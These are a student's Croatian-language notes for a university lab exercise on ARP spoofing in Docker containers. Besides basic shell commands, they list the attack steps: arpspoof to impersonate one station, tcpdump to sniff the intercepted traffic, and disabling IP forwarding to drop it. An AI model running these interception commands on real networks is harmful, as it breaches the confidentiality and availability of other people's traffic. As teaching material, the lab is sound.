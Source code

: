 # 1.laboratorijska vjezba

pwd - lokacija gdje se nalazimo trenutno, u kojem repozitoriju

cd - promijeni folder u kojem se nalazimo

mkdir - napravi folder

ls - ispis sadrzaja foldera

klonirali smo repozitorij sa githuba od profesora, u naš folder : git clone [https://github.com/mcagalj/SRP-2021-22](https://github.com/mcagalj/SRP-2021-22)

usli smo u repozitorij SRP-2021-22, zatim u folder arp-spoofing (promijenili smo radni direktorij)

./start.sh - buildanje i pokretanje docker kontejnera

-/stop.sh - zaustavljanje docker kontejnera

docker ps - ispis pokrenutih kontejnera

uname - ime op sustava

hostname - da vidimo gdje smo trenutno sa terminalom

docker ps exec -it sh  - pokretanje interaktivnog shella u station-1

if config -a   - dohvaćanje konfiguracije mrežnog interfejsa (ip i ethernet adresa)

 ping station-2  - provjeravamo je li station-2 na istoj mreži kao i station-1

docker exec -it station-2 sh  - pokretanje interaktivnog shella u station-2

netcat -l -p 9000   - pomoću netcata otvaramo server TCP socket na portu 9000, na kontejneru station-1

netcat station-1 9000   - na kontejneru station-2 pomoću netcata otvaramo client TCP socket na hostname-u station-1 9000

docker exec -it evil-station sh   - pokretanje interaktivnof shella u evil-station kontejneru

tcpdump - sluša na ethernetu

arpspoof -t station-1 station-2  - u kontejneru evil-station pokrećemo arpspoof  (-t target -r host, tj. varamo 1 da smo 2)

pomoću tcpdump-a  kojeg pokrećemo u evil-station pratimo  promet, narušavamo confidentiality

tcpdump -X host station-1 and not arp  - filter
echo 0 > /proc/sys/net/ipv4/ip_forward - naredba evil stationu da ne prosljeđuje, narušen availability (gasimo proslijeđivanje spoofanih paketa)
